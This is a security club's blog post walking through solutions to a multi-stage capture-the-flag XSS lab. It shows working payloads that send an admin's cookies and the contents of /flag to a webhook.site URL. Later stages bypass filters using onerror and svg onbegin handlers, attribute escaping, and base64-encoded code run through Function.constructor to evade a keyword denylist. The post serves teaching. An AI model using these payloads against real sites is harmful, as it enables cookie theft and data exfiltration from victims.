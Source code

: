 ```yaml
---
layout: post
title:  "beginner xss recap"
date:   2021-09-23
categories: web
---
```


Last meeting (9/23), we went over some beginner XSS (Cross Site Scripting). These are the solutions to the multi-stage challenge that you had lab time to work on.

You can reference the lecture [here](https://docs.google.com/presentation/d/17Gc2c_fv2uEVucDAzmRulf_lyIwglVO-V9X283Geip8/edit#slide=id.p).

Note: the later stages of the challenges were much more than beginner-level, so don't worry if you couldn't get them!

Overall, there were 5 stages:
- [Admin cookie flag](#admin-cookie)
- Read `/flag` with:
    - [static note type](#static-note)
    - [dynamic note type](#dynamic-note)
    - [image note type](#image-note)
    - [filtered note type](#filtered-note)


The source of the challenge server is also available on [GitHub](https://github.com/blairsec/club-challs-2021/blob/master/xss/site/src/index.ts).

For those who were confused of the overall flow of the challenge, the goal is to achieve XSS and submit a page with malicious code to the admin bot. The admin bot simulates a real person and "visits" the page, (hopefully) triggering your XSS which you can then leverage and turn into a flag. In the real world, the admin bot could be someone important such as someone with a valuable bank account.


#### admin cookie  
We can use [webhook.site]([https://webhook.site/](https://webhook.site/)) to log our requests.  
 
To test that XSS indeed exists, let's make a static note that just sends a GET request to our webhook.site:  
{% raw %}  
```html  
<script>  
fetch("https://webhook.site/19052bc2-3e1a-4be9-8766-389277cc1802")  
</script>  
```  
{% endraw %}  
 
Let's try to steal the cookie of the admin. Using Javascript, we can access the cookies using `document.cookie`. Keep in mind this only works for non-HttpOnly cookies. Read more about HttpOnly cookies [here]([https://www.cookiepro.com/knowledge/httponly-cookie/](https://www.cookiepro.com/knowledge/httponly-cookie/)).  
- In short, HttpOnly cookies cannot be accessed by any script run by the browser, including anything malicious that we might put there  
 
{% raw %}  
```html  
<script>  
fetch("https://webhook.site/19052bc2-3e1a-4be9-8766-389277cc1802/?" + document.cookie)  
</script>  
```  
{% endraw %}  
 
This appends any of the admin's non-HttpOnly cookies to the url, plus the `?`. The `?` marks anything after that as a key-value pair of GET request parameters.  
 
`/?asdf=fdsa&zxcv=vcxz` would contain:  
- asdf: fdsa  
- zxcv: vcxz  
 
It also just happens that document.cookie is in `key=value` format.  
 
Submitting the site to the admin, we get a request to `https://webhook.site/19052bc2-3e1a-4be9-8766-389277cc1802?cookie_flag=flag%7Bcookie_monster_nom_nom%7D`.

webhook.site automatically extracts the GET request parameters for us, and we can see the flag under the `Query strings` section.  
 
Flag: `flag{cookie_monster_nom_nom}`  
 
#### static note
This time, we want to read `/flag` as the admin and then send the content of whatever we read to ourselves.  
 
Using [Mozilla docs](https://developer.mozilla.org/en-US/docs/Web/API/Response/text) for the fetch() api, we see we can use `fetch(url).then(resp => resp.text().then(text => {function}))` to read the contents of `url`. We can then send the content back to ourselves like how we stole the admin's cookies.  
{% raw %}  
```html  
<script>  
fetch("/flag").then(resp =>
    resp.text().then(s =>
        fetch("https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?flag=" + s)
    )
)
</script>
```  
{% endraw %}

Flag: `flag{starting_off_with_baby_steps}`

#### dynamic note
According to the provided source, the site is rendered with a JavaScript that fetches the user data and then uses `.innerHTML` to populate the user data field, instead of templating it directly. This means that using `<script>` tags won't work because the scripts won't run.

However, we can easily bypass this by using the [`onerror`](https://www.w3schools.com/jsref/event_onerror.asp) property of a dummy image.

In short, the `onerror` property runs the JavaScript assigned to it whenever the image or other structure fails to load. We can make an image with `src="x"` to guarantee that the image load fails, meaning our JavaScript will always run.

Then, we just do the same thing we did last time for the static note, albeit slightly minimized to fit in one line.
```html
<img src="x" onerror='fetch("/flag").then(resp => resp.text().then(s => fetch("https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?flag=" + s)))' />
```

Flag: `flag{leeking_deets_like_a_boss}`

#### image note

According to the source, when we create an image note our payload is inserted into the form `<img src="${note.content}"`.

This is really easy to escape. You only need to put a double quote to complete the `src="` and then you can define your own `onerror` handler.

I used ~\`~ (backtick) for my strings because JavaScript is cool like that. You could probably find a way to escape the strings using `\`.

```
x" onerror='fetch(`/flag`).then(resp => resp.text().then(s => fetch(`https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?flag=` + s)))' style="
```

Flag: `flag{the_great_property_escape}`

#### filtered note
The filter consists of the following banned keywords:
```javascript
["script",
"img",
"onerror",
"iframe",
"fetch",
"window",
"eval",
"function",
"then",
"{",
"}",
"xmlhttprequest",
"navigator",
"location",
"self",
]
```

You could think of a very creative and inspiring solution to get around this denylist. Or you could use an [XSS cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet).

I used `<svg><animate onbegin='<payload>' attributeName=x dur=1s>` to achieve XSS.

The process of breaking out of JavaScript jails is typically just a get-it-or-you-don't kind of situation. With so many important keywords banned, it is generally a good idea to find a way to hide the payload used to send yourself the flag with some sort of encoding so the filter cannot detect it. Then, you can decode it and evaluate it. But wait, `eval` is banned too.

It turns out that JavaScript is the best language in the world and you can create a function out of a string. For example, `([]).constructor.constructor('alert(1)')()` constructs a function that does `alert(1)` and runs it. This is super powerful because we can now encode our flag payload and hide it into this function.

Taking our payload from our [dynamic note](#dynamic-note) solution, we can base64 encode it to get it past the filter. Then, we can use `atob()` to convert it back when JavaScript evaluates.

```javascript
// ZmV0Y2goIi9mbGFnIikudGhlbihyZXNwID0+IHJlc3AudGV4dCgpLnRoZW4ocyA9PiBmZXRjaCgiaHR0cHM6Ly93ZWJob29rLnNpdGUvOGQ2ZmIzODYtMzI4YS00MGU3LWJlMmItZjEyNDcyOTI2N2RlLz9mbGFnPSIgKyBzKSkp
// is the base64 encoded version of:
fetch("/flag").then(resp => resp.text().then(s => fetch("https://webhook.site/8d6fb386-328a-40e7-be2b-f124729267de/?flag=" + s)))
```

Putting it all together, our final payload is:
{% raw %}
```html
<svg><animate onbegin='([]).constructor.constructor(atob("ZmV0Y2goIi9mbGFnIikudGhlbihyZXNwID0+IHJlc3AudGV4dCgpLnRoZW4ocyA9PiBmZXRjaCgiaHR0cHM6Ly93ZWJob29rLnNpdGUvOGQ2ZmIzODYtMzI4YS00MGU3LWJlMmItZjEyNDcyOTI2N2RlLz9mbGFnPSIgKyBzKSkp"))()' attributeName=x dur=1s>
```
{% endraw %}



See you at our next meeting, 9/30! We'll also go over the challenge then, although perhaps not in so much detail.

~ josh